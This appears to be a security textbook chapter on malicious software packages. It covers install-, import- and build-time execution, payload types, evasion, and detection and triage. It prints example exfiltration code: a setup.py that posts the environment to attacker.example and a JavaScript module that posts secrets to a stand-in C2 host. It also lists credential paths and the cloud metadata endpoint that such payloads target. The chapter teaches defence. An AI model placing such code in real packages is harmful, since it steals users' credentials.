






# Chapter 4 — Malicious Packages: Anatomy, Detection, and Analysis

*What this chapter covers.* Chapter 3 was about *delivery*: how an attacker gets a package
with their name into your resolver's field of view — dependency confusion, typosquatting,
account takeover, namespace tricks. This chapter is about the *payload*: what the code inside
that package actually does once it lands, when and where it runs, how it hides, and — the
practitioner's core — how you detect and analyze it without becoming its next victim. The
central, counter-intuitive fact this chapter drills into: for most ecosystems, *installing* a
package is enough to execute attacker code. You do not have to `import` it, call it, or ship
it. `npm install` on a laptop or a CI runner is arbitrary code execution by design, and that
single property is the engine behind the majority of real-world supply-chain compromises. We
dissect the three execution phases (install, import, build), build a taxonomy of what payloads
do — with real incidents, correctly described — catalog the evasion techniques that defeat
naïve scanning, and then spend the back half of the chapter on the thing you are actually paid
to do: static heuristics, dynamic sandboxing, reputation signals, a safe triage runbook, and
the org-level controls that stop one bad version from touching a whole fleet.

Learning goals — after this chapter you should be able to:

- Explain precisely **where malicious code executes** — install-time lifecycle scripts, import-
  time module bodies, and build-time plugins/native code — and why install-time is the dominant
  vector and the hardest to opt out of safely.
- Enumerate the **taxonomy of malicious behaviors** — recon/beaconing, credential theft,
  cryptomining, backdoors/RATs, wallet/clipboard stealers, wipers, and multi-stage droppers —
  and tie each to a real incident described accurately.
- Recognize the **evasion and anti-analysis techniques** that make packages hard to catch:
  obfuscation, delayed and environment-gated activation, sandbox detection, split payloads, and
  the "sleeper" package that turns malicious after many benign releases.
- Run the **detection toolchain** — static heuristics (GuardDog, Socket, Semgrep), dynamic
  sandboxing (OpenSSF Package Analysis), and reputation/behavioral signals — and understand what
  each can and cannot see.
- Execute a **safe triage runbook** for a flagged package in an isolated environment with no
  real credentials and full network/filesystem capture.
- Argue the **distributed-systems case** for scanning at ingestion and a version-cooldown
  quarantine window as the two highest-leverage org-level controls, and for feeding detections
  into fleet-wide inventory.

A note on scope. The delivery mechanisms — how the attacker's package outranks or impersonates
the real one — are Chapter 3. The vulnerability-versus-malice distinction, and why CVE/OSV
databases (Chapter 5) mostly *don't* cover malware, matters here and we flag it. Running the
internal proxy where ingestion scanning lives is Chapter 8; update automation and cooldowns are
Chapter 9; SBOM-driven "who pulled the bad version" inventory is Book 3; the incident-response
playbook once a detection fires is Book 8. Book 1, Chapter 4 (ua-parser-js, node-ipc) and
Chapter 5 (Codecov, xz-utils) narrated those incidents as case studies; here we use them as
worked specimens of *mechanism*.

## Where the code executes: the three phases

Before you can detect a malicious package you have to know *when* its code gets control. There
are three distinct phases, and they differ sharply in how easy they are to gate. A defense that
stops one does nothing for the others.



### Install-time execution: the dominant vector

The single most important sentence in this chapter: **in npm, pip's source-distribution path,
and RubyGems, merely installing a package can execute arbitrary attacker-controlled code, with
no import and no use of the package whatsoever.** This is not a bug. It is a deliberate feature
of package managers that needed to compile native extensions, fetch platform binaries, or run
post-install setup. Attackers inherit it for free.

In npm the mechanism is **lifecycle scripts** declared in `package.json`. The `scripts` object
can define `preinstall`, `install`, and `postinstall` hooks that `npm` runs, in order, during
installation of that package — including when the package is a deep transitive dependency you
never named:

```json
{
  "name": "totally-legit-utils",
  "version": "3.2.1",
  "scripts": {
    "postinstall": "node ./scripts/setup.js"
  }
}
```

`npm install` resolves the tree, unpacks each tarball, and for every package with an
`install`/`postinstall` script, runs it with the privileges of the invoking user, in the
package's own directory, with full network and filesystem access. On a CI runner that user
often has the CI's cloud credentials, the registry publish token, and the deploy keys in its
environment. The classic dependency-confusion proof of concept (Chapter 3) is nothing but a
`postinstall` that phones home; the classic smash-and-grab is a `postinstall` that reads
`process.env` and `~/.aws/credentials` and POSTs them out. The victim never wrote a line of
code that touches the package.

Python's equivalent lives in the **source distribution (sdist)** path. A `.whl` wheel is inert
data — installing it just unzips files into `site-packages`, no code runs. But an sdist ships a
`setup.py` (or, under PEP 517, a `pyproject.toml` pointing at a build backend), and building it
runs `setup.py` as an ordinary Python program, on the installer's machine, at install time:

```python
# setup.py in a malicious sdist
from setuptools import setup
from setuptools.command.install import install
import os, urllib.request, json, socket

class Exfil(install):
    def run(self):
        data = json.dumps({
            "host": socket.gethostname(),
            "user": os.getenv("USER"),
            "env": dict(os.environ),
        }).encode()
        try:
            urllib.request.urlopen("https://attacker.example/collect", data, timeout=3)
        except Exception:
            pass
        install.run(self)  # complete the real install so nothing looks wrong

setup(name="colourama", version="1.0.0", cmdclass={"install": Exfil})
```

This is precisely the shape of the early PyPI typosquat waves (`colourama` mimicking
`colorama`, and the families that followed). Because wheels don't run code and sdists do, an
attacker's first move is often to publish *only an sdist* so `pip` is forced down the
code-executing path — a signal detectors watch for.

RubyGems has the same property twice over. A gem's `.gemspec` is *evaluated as Ruby* when the
gem is handled, and gems with C extensions run `extconf.rb` (via `mkmf`) at install to generate
a Makefile — both are arbitrary-code execution points. Cargo is a partial exception:
`Cargo.toml` is declarative data, but a crate can ship a `build.rs` build script that Cargo
compiles and runs at build time (the build phase, below), so the code-on-acquisition property
reappears one phase later. Go modules and Maven/Gradle *artifact download* run no code on
fetch; execution in the JVM world is deferred to build plugins and to runtime.

**`--ignore-scripts` and its limits.** Every npm invocation accepts `--ignore-scripts`, and you
can set it permanently in `.npmrc`. It tells npm to skip *all* lifecycle scripts, which
neutralizes the entire install-time vector at a stroke. This is the correct default for CI (we
return to it under org defenses). But understand its limits precisely:

- It is all-or-nothing per install. Legitimate packages that genuinely need a `postinstall` to
  fetch a platform binary (`esbuild`, `sharp`, some native modules) will not set themselves up.
  You then need an allowlist to re-enable scripts for exactly those packages — npm's
  `--ignore-scripts` has no built-in per-package exception, so this is done with tooling like
  `@lavamoat/allow-scripts`, which pins a reviewed allowlist of packages permitted to run
  scripts and blocks the rest.
- It does **nothing** for the other two phases. A package whose malice lives in its module body
  runs the instant your code `require`s it, scripts ignored or not. `--ignore-scripts` buys you
  the biggest single reduction in attack surface and a false sense of completeness if you stop
  there.

### Import-time / runtime execution

The second phase is code in the **module body** that runs when the package is first
`require`d/`import`ed. Any statement at the top level of a JavaScript module, or at import time
in a Python module, executes on load — not when a function is called:

```javascript
// index.js — runs the moment someone does require('this-package')
const os = require('os');
const https = require('https');
const payload = Buffer.from(process.env, ...); // read secrets
https.request('https://attacker.example/c2', { method: 'POST' }).end(payload);
module.exports = require('./the-real-library'); // still export the real thing
```

This phase is strictly harder to gate than install scripts. There is no `--ignore-imports`
flag; the whole point of a dependency is that you import and run it. Defenses here are
coarse — a runtime permission model (Deno's allow-list flags, Node's experimental permission
model), or preventing the package from entering your tree at all. Note the trade the attacker
makes: import-time malice only fires if the victim actually *uses* the package, so it is
better-targeted and stealthier than an install script that fires on every `npm install` in the
tree, but it reaches fewer victims. Sophisticated, targeted compromises (event-stream, below)
choose runtime; smash-and-grab credential theft chooses install.

### Build-time execution

The third phase is code that runs during **compilation or bundling**. This is where the
otherwise-safe ecosystems lose their immunity:

- **Native addons and node-gyp.** npm packages with C/C++ extensions run `node-gyp`, which
  invokes a `binding.gyp` and a compiler toolchain — arbitrary build logic.
- **Rust `build.rs` and procedural macros.** A crate's `build.rs` runs on the build host during
  `cargo build`. Proc-macros are even more insidious: a procedural macro is Rust code the
  *compiler* runs to generate code, with full host access, every time you compile a crate that
  uses it. There is no sandbox around a proc-macro; `cargo build` on untrusted code is code
  execution.
- **JVM build steps.** Maven and Gradle run no code when they *download* a JAR, but a malicious
  Maven plugin or Gradle plugin (or a `build.gradle` itself, which is executable Groovy/Kotlin)
  runs during the build. Gradle build scripts are full programs.
- **Build macros and generators generally.** Anything that runs at compile time — code
  generators, annotation processors, linker plugins — is an execution point.

The xz-utils backdoor (CVE-2024-3094; Book 1, Chapter 5) is the canonical build-time attack:
the malicious payload was not in the source a human would read but injected during the
`./configure`/`make` build via a doctored `build-to-host.m4` autoconf macro and obfuscated test
fixtures, which spliced object code into `liblzma` only when the build matched specific
conditions. The lesson for this chapter: **your build system is an execution environment**, and
"we only download signed release tarballs, we don't run install scripts" does not protect you if
the malice runs when you compile.

## What the payloads do: a taxonomy

Once attacker code has control, in any phase, what does it do? The behaviors cluster into a
handful of categories. Detection tooling is largely organized around recognizing these
behaviors, so the taxonomy is not academic — it is the target list for your heuristics.



### Reconnaissance and beaconing

The lowest-effort payload just proves it ran and reports where. It collects `hostname`,
`username`, the current working directory, external IP, and — critically for
dependency-confusion campaigns — the *package name* that fired, so the attacker can tell which
of the hundreds of names they squatted actually resolved inside a real company. Alex Birsan's
2021 dependency-confusion research (Chapter 3) used exactly this: benign PoC beacons that
exfiltrated identifying data to attribute the hit. The same code shape is used by bug-bounty
researchers, by red teams, and by real attackers doing target selection before deploying a
heavier payload. You cannot tell a "research" beacon from a hostile one by its behavior; treat
both as incidents.

A recurring covert channel here is **DNS exfiltration**. Instead of an HTTP POST (which egress
proxies and firewalls often log or block), the payload encodes stolen data into subdomains of
an attacker-controlled zone and does a DNS lookup: `base32(hostname).x.attacker.example`. The
attacker's authoritative name server logs the query. DNS almost always egresses even from
locked-down build networks, and it is frequently unmonitored, which is exactly why it is
popular. A detector that only watches HTTP misses it; a sandbox must capture DNS queries
(below).

### Credential and secret theft

The highest-value smash-and-grab. On a developer laptop or, far worse, a CI runner, the process
environment and home directory are dense with secrets:

- **Environment variables** — CI providers inject tokens, cloud keys, and registry credentials
  as env vars. `process.env` / `os.environ` is a one-line theft. The Codecov breach (Book 1,
  Chapter 5) is the archetype at scale: a modified Bash Uploader script exfiltrated the
  environment of every CI job that ran it, which for thousands of orgs meant AWS keys, repo
  tokens, and more. A malicious install script does the same thing without needing to compromise
  a build tool.
- **`~/.aws/credentials`, `~/.ssh/id_*`, `~/.npmrc`, `~/.docker/config.json`** — long-lived
  credentials on disk. `.npmrc` is especially nasty: stealing the publish token lets the
  attacker publish malicious versions of *your* packages, turning one compromise into a worm.
- **Cloud instance metadata** — a payload on a cloud build runner hits
  `http://169.254.169.254/latest/meta-data/iam/security-credentials/` (or the GCP/Azure
  equivalents) to lift the instance's IAM role credentials directly, no file needed. IMDSv2's
  token requirement raises the bar slightly but a payload running *on* the host clears it
  trivially.
- **Browser data** — on developer machines, saved passwords, cookies, and session tokens from
  browser profiles. Session-cookie theft bypasses MFA.

### Cryptominers

Resource theft rather than data theft. The payload downloads and runs a coin miner (almost
always **XMRig**, mining Monero for its unlinkability) pointed at the attacker's wallet and
pool. The ua-parser-js compromise of October 2021 (Book 1, Chapter 4) is the reference case: an
attacker took over the maintainer's npm account and published malicious `0.7.29`, `0.8.0`, and
`1.0.0`, whose install script fetched a Monero miner (and, on Windows, a password-stealing
trojan). ua-parser-js had on the order of tens of millions of weekly downloads, so the blast
radius was enormous and immediate — the reason npm and the maintainer moved within hours.
Miners are, ironically, among the *easier* payloads to detect after the fact: sustained CPU
saturation and a connection to a mining pool are loud.

### Backdoors, RATs, and reverse shells

Instead of a one-shot exfil, the payload establishes a **persistent command-and-control (C2)**
channel — a reverse shell dialing out to an attacker host, or a remote-access trojan that polls
for commands. This converts a package install into ongoing interactive access to the build
environment or the developer's machine, from which the attacker moves laterally. On CI this is
particularly grave because the runner often has network reach into internal systems that a
laptop does not.

### Wallet and clipboard stealers

Two flavors of targeted financial theft. A **clipboard stealer** (crypto-clipper) hooks the
system clipboard and, when it sees something shaped like a cryptocurrency address, silently
swaps it for the attacker's address — so a user copying their own wallet address to receive
funds pastes the attacker's. A **wallet stealer** reads local wallet files or keys.

The **event-stream** incident (2018; Book 1, Chapter 4) is the definitive targeted specimen and
worth stating precisely because its mechanism is so instructive. The original maintainer, no
longer interested, handed `event-stream` — a package with millions of weekly downloads — to a
new maintainer who had volunteered. That maintainer published a release adding a new dependency,
`flatmap-stream`, and later shipped `flatmap-stream@0.1.1` carrying an encrypted payload. The
payload was **environment-gated**: it decrypted and ran only inside the build of a specific
target — **Copay**, a Bitcoin wallet application — where it attempted to steal wallet private
keys. In any other project the code did nothing, decrypting to garbage. This is
credential/wallet theft *and* a masterclass in evasion (below): a compromise that is invisible
in every environment except the one it was built to rob.

### Wipers and sabotage (protestware)

Not all payloads steal; some destroy. The **node-ipc** incident of March 2022 (Book 1,
Chapter 4) is the reference. The maintainer of `node-ipc`, a widely-depended-upon module,
shipped versions (10.1.1 and 10.1.2) whose code checked the host's geolocation by IP and, if it
resolved to Russia or Belarus, **overwrote files on disk** with a heart emoji — a destructive
wiper aimed at users in those countries. Related releases added a `peacenotwar` module that
wrote a protest message to the desktop. This is "protestware": a maintainer weaponizing their
own package for a political cause, sabotaging users. It is important precisely because it breaks
the reputation heuristic — node-ipc was an established, trusted package with a long benign
history; the threat was the *maintainer*, not an impostor.

### Downloaders / droppers and second-stage gating

The most operationally sophisticated payloads keep almost nothing in the package. The published
code is a small **dropper** that fetches a **stage-2** payload from a remote server at runtime
and executes it. This defeats static analysis of the package itself (the malice literally is not
there yet) and gives the attacker a kill switch: they can serve the real payload only to chosen
victims and serve benign nothing to everyone else — including to your scanner. **Second-stage
gating** — deciding whether to deliver the real payload based on the requester's IP, geolocation,
CI markers, OS, or a target-specific check — is the through-line connecting droppers to the
evasion techniques we turn to now.

## Evasion and anti-analysis

An attacker who expects scanning designs the package to survive it. These techniques are why
"we scan our packages" is necessary but nowhere near sufficient.

**Obfuscation.** Payloads are minified, base64/hex-encoded, string-encrypted, or wrapped in
`eval` of a decoded blob. A common shape is `eval(Buffer.from('...', 'base64').toString())` or
`exec(marshal.loads(...))` in Python. Obfuscation defeats a human skim and naïve string
matching, but it is itself a *signal*: legitimate packages rarely `eval` a base64 blob at
install time, so detectors flag the obfuscation pattern even without decoding it.

**Legit-looking code and re-export.** Good malware ships the real library too. It monkey-patches
one function or runs a side effect and then `module.exports = require('./real-thing')`, so the
package works perfectly and no test fails. Typosquats copy the target's entire README and repo
metadata (**starjacking** — claiming the popular project's repository URL to inherit its stars
and apparent legitimacy; Chapter 3), so the package page looks trustworthy.

**Delayed and environment-gated activation.** The payload sleeps — literally a timer, or a "do
nothing for the first N days / until a date," or fires only under specific conditions: a
particular hostname, a CI environment variable, an OS/arch, the presence of a target file, or a
specific downstream project. event-stream fired only in Copay's build. The xz backdoor gated on
distribution, architecture (x86-64 Linux), the presence of specific build tooling, and being
built as part of a deb/rpm package — so it stayed dormant in most build environments and in the
hands of most investigators. Environment gating is deadly for detection because **a sandbox that
does not look like the target sees a benign package.**

**Sandbox and analysis detection.** Payloads probe for the tells of an analysis environment —
known analysis hostnames, absence of a real user's browser history or shell history, monitoring
tools in the process list, virtualization artifacts, non-routable or datacenter IP ranges — and
go quiet if they think they are being watched. This is the co-evolutionary pressure that pushes
dynamic sandboxes toward realism.

**Split payloads.** The malice is spread across multiple versions or multiple packages, none of
which is damning alone. One version adds an innocuous dependency; a later version of *that*
dependency ships the payload (the event-stream `flatmap-stream` pattern). Or `preinstall` in
package A writes a file that package B's `postinstall` executes. Analyzing one version or one
package in isolation misses it.

**The sleeper / handover package.** The most durable evasion is *time and trust*. A package is
genuinely benign for many releases, accumulating downloads, stars, and dependents — and then
turns. The turn can be a maintainer selling or handing over the package (event-stream), an
account takeover of a real maintainer (ua-parser-js), or the maintainer themselves going
rogue (node-ipc). Reputation heuristics that reward age and popularity are, against a sleeper,
actively misleading. This is why *per-version* scanning at ingestion and a *cooldown* on new
versions (below) matter more than a one-time "is this package reputable" check.

**Install-only, self-deleting payloads.** Some install-time payloads run their exfil and then
delete their own artifacts and complete a normal install, leaving a working package and little
forensic trace on disk. The evidence lives in the network capture and the registry's copy of the
version, not on the victim's filesystem — which is one more reason ingestion-time capture beats
after-the-fact host forensics.

## Detection and analysis

This is the practitioner core. Detection has three complementary modes — static, dynamic, and
reputational — and none is sufficient alone. Static analysis reads the code without running it;
dynamic analysis runs it and watches; reputation asks whether the *provenance* smells right.
Sophisticated malware is designed to beat at least one, so serious pipelines run all three and
correlate.

A framing note that trips up newcomers: **this is not what `npm audit` or a CVE/OSV scanner does.**
Those check your resolved versions against databases of *known vulnerabilities* in
*legitimate* packages (Chapter 5). A brand-new malicious package has no CVE — it is not a bug in
good software, it is bad software — so vulnerability scanners are blind to it until someone
files a malware advisory. Malware detection is a separate discipline built on behavior and
provenance, which is the subject of this section. (GitHub and the ecosystems do publish malware
advisories after the fact, and OSV now carries a *malicious-packages* dataset, discussed below —
but that is post-hoc labeling, not prospective detection.)

### Static analysis and heuristics

Static detectors parse the package (install scripts, module bodies, metadata) and flag
suspicious *capabilities* and *anomalies*:

- **Suspicious install scripts** — the mere presence of `preinstall`/`postinstall`, especially
  one that spawns a shell, `curl`s a URL, or runs `node -e`/`python -c`.
- **Network calls at install or import time** — outbound HTTP/DNS/socket use where a library of
  this kind has no business making connections, particularly during installation.
- **Access to sensitive paths or env** — reads of `~/.ssh`, `~/.aws`, `~/.npmrc`, `process.env`,
  the metadata IP, or the clipboard.
- **Dangerous primitives** — `eval`, `child_process.exec`/`spawn`, `os.system`,
  `subprocess`, `Function(...)` on decoded data, `marshal`/`pickle` loads.
- **Obfuscation and high entropy** — minified/encoded blobs, base64 strings above a length
  threshold, string-array packers. Entropy is a cheap, effective flag.
- **Sdist-only or unexpected native code** — a Python package shipping only an sdist, or an npm
  package suddenly gaining a `.node` binary or a `binding.gyp`.
- **Metadata anomalies** — newly-published, very low download count, a maintainer account days
  old, a name one edit-distance from a popular package, a repo link that doesn't match
  (starjacking).

Real tools that implement this:

- **GuardDog** (Datadog, open source) — a CLI that scans PyPI and npm packages using a set of
  **Semgrep** rules over the source plus package-metadata heuristics (release/maintainer age,
  empty description, sdist-only, etc.). It is designed to be run against a package before you
  adopt it, or in bulk over a feed.
- **Socket** — a commercial service (with a free tier and GitHub app) that scores packages on
  "supply-chain risk" by detecting capability changes: a new version that suddenly adds network
  access, filesystem access, an install script, or shell execution triggers an alert. Its model
  is *behavioral diffing across versions*, which is well-matched to catching a sleeper's turn.
- **Semgrep** — the general static-analysis engine underneath much of this; you can write and
  run your own rules (e.g., "flag `child_process` use inside a `postinstall` script").
- **Phylum** (acquired by Veracode in 2024) — behavioral/risk analysis of packages across
  ecosystems, oriented at the CI/ingestion gate.
- **VirusTotal** — useful for the *dropped binary* case: hash-check or upload a fetched stage-2
  or a native addon and see if any AV engine flags it. Weak against novel or
  source-only payloads.

Static analysis is fast, cheap, and scales to whole registries — but it is defeated by heavy
obfuscation, by droppers whose payload is remote, and by environment gating that hides the
malicious branch behind a condition the parser can't evaluate.

### Dynamic analysis: sandboxing

Dynamic analysis *runs* the package — installs it and imports it — inside an instrumented,
isolated sandbox, and records what it actually does: every syscall, file access, process spawn,
network connection, and DNS query. Because it observes behavior rather than reading code, it
sees through obfuscation and catches the dropper *fetching* its stage-2 — the network
connection is right there in the trace even if the code that made it is an encrypted blob.



The reference open-source implementation is **OpenSSF Package Analysis**. It consumes a feed of
newly-published packages, installs and imports each one inside a sandbox (it has used
gVisor-based sandboxing with `strace`-level syscall monitoring), and records the files accessed,
commands executed, and network/DNS traffic generated during both the install phase and the
import phase — separately, since they are different execution phases. The output is a structured
behavior report; runs that show install-time network connections to unknown hosts, reads of
credential paths, or execution of a downloaded binary are strong malicious signals. Package
Analysis is one of the engines feeding the ecosystem's **Package Feeds** and the OSF
**malicious-packages** dataset.

Dynamic analysis is not a silver bullet either. It is heavier and slower than static scanning,
it only observes the paths that actually execute in *that* run, and — the core weakness —
**environment gating and sandbox detection defeat it**. If the payload only fires on Copay's
build, or on a specific arch/distro, or refuses to run when it smells a VM, the sandbox sees a
saint. This is why the two modes are complementary: static analysis flags the *presence* of a
gated/obfuscated branch it can't evaluate; dynamic analysis catches the *behavior* of everything
that does run.

### Behavioral and reputation signals

The third leg looks at provenance rather than code:

- **Maintainer and account age** — a package or a new maintainer created days before publishing
  is a classic account-takeover or throwaway-attacker signal.
- **Download trajectory** — a package with near-zero downloads that suddenly appears in your
  build (dependency confusion), or a normal package whose new version's behavior diverges.
- **Repository linkage validity** — does the declared repo actually contain this code, and does
  the published tarball match the repo at that tag? A mismatch, or a repo URL borrowed from a
  popular project (starjacking), is a red flag. This is checkable by comparing the published
  artifact to the source.
- **Release-cadence anomaly** — a package that published quarterly for three years suddenly
  shipping three versions in an hour, or a version published from a new location/token.
- **Sudden maintainer change** — a new owner, a transferred package, a new publish token. Every
  major targeted incident (event-stream handover, ua-parser-js takeover) shows up here first.

These signals are individually weak and collectively strong. A newly-published, sdist-only,
one-download package from a two-day-old account with an install script that base64-decodes and
`exec`s something is not ambiguous.

### A payload → signal → detection map

| Payload type | Observable signal | Best detection technique |
|---|---|---|
| Recon / beacon | Outbound HTTP or DNS at install/import; reads hostname/env | Dynamic (network+DNS capture); static flag on net calls in scripts |
| Credential theft | Reads `~/.aws`, `~/.ssh`, `.npmrc`, `process.env`, `169.254.169.254` | Static path/env heuristics; dynamic filesystem + network trace |
| Cryptominer | Sustained CPU; connection to mining pool; fetch of XMRig | Dynamic (CPU + net); VirusTotal on dropped binary |
| Backdoor / RAT | Persistent outbound socket; reverse-shell spawn (`sh -i`) | Dynamic (process + net); static `child_process`/`exec` flag |
| Wallet / clipboard stealer | Clipboard API use; wallet-file reads; address-shaped regex | Static capability scan; dynamic clipboard/file monitor |
| Wiper / sabotage | Mass file writes/overwrites/deletes; geo/IP check | Dynamic filesystem monitor; static geo-gate + fs-write pattern |
| Dropper / stage-2 | Fetch of a URL then exec of the response | Dynamic (net + exec correlation); static `eval(fetch(...))` flag |
| Obfuscated (any) | High-entropy blob, base64→`eval`/`exec` | Static entropy/obfuscation heuristic; dynamic to see the behavior |

### The ecosystem's malware infrastructure

You are not detecting alone. Several shared datasets and scanners now operate at the registry
level:

- **GitHub / npm malware scanning** — npm (owned by GitHub) runs automated malware scanning over
  published packages and issues **npm security/malware advisories**; malicious versions get
  removed and flagged.
- **PyPI malware checks and quarantine** — PyPI runs malware-detection tooling over uploads and,
  since 2024, can **quarantine** a project (making it uninstallable) while a report is
  investigated, in addition to reactive removals.
- **OpenSSF `malicious-packages`** — a public repository of confirmed-malicious package records
  in **OSV format**, aggregating findings across ecosystems; you can consume it as a feed to
  block or alert on known-bad versions.
- **Datadog `malicious-software-packages-dataset`** — a public dataset of real captured
  malicious packages (source included, defanged) useful for building and testing your own
  detectors.
- **OpenSSF Package Feeds / Package Analysis** — the pipeline that watches new publications and
  feeds the sandboxing and datasets above.

Consuming these as inputs to your ingestion gate (Chapter 8) gives you the ecosystem's
collective detection for free; contributing your own findings back closes the loop.

### A safe triage runbook

When a scanner flags a package — or worse, when you suspect one already entered a build — you
have to analyze it *without detonating it on a machine that matters*. Never `npm install` a
suspected-malicious package on your laptop, on a shared runner, or anywhere with real
credentials; installation is execution.



The non-negotiables of the runbook:

1. **Isolation first.** A disposable VM or a strongly-sandboxed container (gVisor,
   Firecracker) with no path to production, no real cloud credentials in the environment, and a
   snapshot you can revert. Assume the package will try to steal whatever it can reach.
2. **No real secrets, but plausible decoys.** Seed the environment with *fake* `~/.aws`,
   `~/.ssh`, and env-var tokens (honeytokens). If the payload exfiltrates them, your capture
   proves the behavior *and* your honeytoken alerting tells you where it phoned home.
3. **Capture everything, from before you install.** A network proxy or `tcpdump` plus a DNS
   query log (DNS exfil is invisible to HTTP-only capture), filesystem auditing (`fatrace`,
   auditd, or a copy-on-write overlay diffed after), and process auditing (`execsnoop`/eBPF,
   `strace`). Turn capture on *before* the install, since install-time is where most payloads
   fire.
4. **Static before dynamic.** Read the manifest scripts and unpack the tarball first. You often
   find the payload by reading `postinstall` and `setup.py` before you ever run anything, which
   also tells you what to watch for.
